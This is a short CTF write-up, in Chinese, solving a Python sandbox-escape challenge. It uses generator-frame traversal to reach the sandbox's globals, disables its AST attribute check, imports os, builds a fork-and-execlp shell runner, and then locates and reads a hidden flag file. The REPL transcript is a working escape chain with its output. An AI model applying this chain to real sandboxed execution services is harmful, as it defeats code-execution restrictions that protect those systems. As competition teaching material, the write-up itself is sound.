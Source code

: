 ```python

if __name__ == "__main__":
    HOST, PORT = "0.0.0.0", 5000
    with socketserver.ThreadingTCPServer((HOST, PORT), Handler) as server:
        print(f"Server listening on {HOST}:{PORT}")
        server.serve_forever()
```

生成器栈帧逃逸： https://www.cnblogs.com/gaorenyusi/p/18242719

拿到exec外部globals, 然后重写visit_Attribute

os模块没ban完就ban了最常见的system,popen

回显因为有"original_stdout": original_stdout很容易读出来

长度100限制只需将代码写成`exec("code")`, code部分拼接就行

然后flag.txt告诉flag最后修改时间2025.5.1 find找就行了（或者直接看start.sh能看到flag在哪）flag位置：`/tmp/.\x0a\x0b\x00hidden/flagD`

`cat /tmp/.*/flagD`就行

```python
>>> a = (a.gi_frame.f_back.f_back for i in [1])

>>> a = [x for x in a][0]

>>> globals = a.f_back.f_back.f_globals

>>> globals['SandboxVisitor'].visit_Attribute=lambda x,y:None

>>> os=globals["__builtins__"].__import__("os")

>>> sys=globals["__builtins__"].__import__("sys")

>>> iter=globals["__builtins__"].iter

>>> exec=globals["__builtins__"].exec

>>> a='run_command = lambda cmd: ((lambda r, w, pid: ((pid == 0 and (os.close(r), os.dup2(w,'

>>> a+='original_stdout.fileno()),os.dup2(w, original_stdout.fileno()),os.execlp("/bin/sh", "sh"'

>>> a+=', "-c", cmd) )) or (os.close(w), (output :=b"".join(iter(lambda: os.read(r, 4096), b""))'

>>> a+='.decode()),os.close(r), os.waitpid(pid, 0),output )[4] ))(*os.pipe(), os.fork()))'

>>> exec(a)

>>> print(run_command("find / -type f -newermt '2025-05-01 00:00:00' ! -newermt '2025-05-02 00:00:00'"))
/tmp/.\x0a\x0b\x00hidden/flagD

>>> print(run_command('cat /tmp/.*/flagD'))
miniLCTF{Fl4G-GeNER4ted_In_M1niIctf2OZS_with_IOvE286}
```
